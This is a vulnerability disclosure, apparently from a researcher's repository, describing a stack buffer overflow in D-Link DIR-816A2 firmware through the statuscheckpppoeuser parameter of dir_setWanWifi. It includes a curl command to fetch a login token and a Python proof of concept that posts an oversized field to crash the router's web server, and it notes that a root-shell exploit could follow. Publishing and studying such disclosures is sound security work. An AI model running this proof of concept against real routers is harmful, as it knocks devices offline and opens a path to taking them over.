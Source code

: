 # Affected Version
Dlink DIR-816A2_FWv1.10CNB05
# Vulnerability Description
Dlink DIR-816A2_FWv1.10CNB05 was discovered to contain a stack overflow via parameter statuscheckpppoeuser in dir_setWanWifi.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameter statuscheckpppoeuser, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/0.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/dir_setWanWifi'

data = {
    'tokenid' : tokenid,
    'statuscheckpppoeuser' : 'a' * 10000, 
    'connecttype' : '1'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/1.png)  

And you can write your own exp to get the root shell.